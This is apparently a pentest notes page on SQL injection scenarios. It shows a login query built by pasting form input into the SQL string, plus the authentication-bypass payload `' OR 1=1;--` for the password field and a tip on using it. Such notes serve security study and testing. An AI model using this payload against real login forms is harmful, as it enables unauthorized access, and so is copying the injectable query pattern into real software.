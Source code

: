 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Specific Scenarios

We can implement SQL Injection in various scenarios, where user input is inadequately sanitized and embedded directly into SQL queries. Here are some common scenarios:

## <mark style="color:orange;">Authentication Bypass</mark>

A method that consists of considering that the web application isn't interested in the content of the username and password, but in making a matching pair in the users' table.

* We assume the DB uses typical query for authentication

{% code overflow="wrap" lineNumbers="true" %}
```sql
SELECT * from users WHERE username='%user%' and password='%password%' LIMIT 1;
```
{% endcode %}

{% hint style="info" %}
`%user%` and `%password%` are the values received on a login form
{% endhint %}

***

* Make a malicious insertion on the password field

{% code overflow="wrap" lineNumbers="true" %}
```sql
' OR 1=1;--   #Use this comparison to cheat on verification
#This will enumerate the users from the database
```
{% endcode %}

{% hint style="info" %}
After the `;--` is mandatory to put a space
{% endhint %}
